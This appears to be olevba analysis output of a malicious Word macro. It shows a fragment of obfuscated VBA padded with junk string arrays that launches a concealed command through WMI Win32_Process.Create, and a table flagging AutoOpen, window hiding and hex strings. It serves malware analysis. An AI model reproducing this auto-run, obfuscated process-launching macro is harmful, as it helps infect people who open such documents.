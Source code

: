           Q5954219(3) = "75404614" + "406869143"
          Q5954219(4) = "580567595" + "143116109"
    Set A165533 = GetObject(CStr("Winmgmts:Win32_ProcesS"))
       Dim A658103()
          ReDim A658103(5)
          A658103(0) = "137479618" + "926490507"
          A658103(1) = "309241433" + "916751420"
          A658103(2) = "272206738" + "422731081"
          A658103(3) = "714085446" + "650175884"
          A658103(4) = "78890792" + "916197776"
    A165533.Create J5438330 + "po" + a426725 + O3_4045.R1136_ + O3_4045.s250__65 + r55104, d10_94, S19851, N50607
       Dim r3891144()
          ReDim r3891144(5)
          r3891144(0) = "869990301" + "602729851"
          r3891144(1) = "6485658" + "501545638"
          r3891144(2) = "102647218" + "600955191"
          r3891144(3) = "842200192" + "762280068"
          r3891144(4) = "31891335" + "242008746"
    End Sub
    
    -------------------------------------------------------------------------------
    VBA MACRO W85356.vba
    in file: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 - OLE stream: u'Macros/VBA/W85356'
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    (empty macro)
    +----------+--------------------+---------------------------------------------+
    |Type      |Keyword             |Description                                  |
    +----------+--------------------+---------------------------------------------+
    |AutoExec  |autoopen            |Runs when the Word document is opened        |
    |Suspicious|ShowWindow          |May hide the application                     |
    |Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
    |          |                    |used to obfuscate strings (option --decode to|
    |          |                    |see all)                                     |
    |Hex String| d$#                |20642423                                     |
    |Hex String|f3Q%                |66335125                                     |
    |Hex String|"R6c                |22523663                                     |
    |Hex String|%(X0                |25285830                                     |
    |Hex String|CISg                |43495367                                     |
    |Hex String|5R5"                |35523522                                     |
    |Hex String|Yc(B                |59632842                                     |
    +----------+--------------------+---------------------------------------------+
    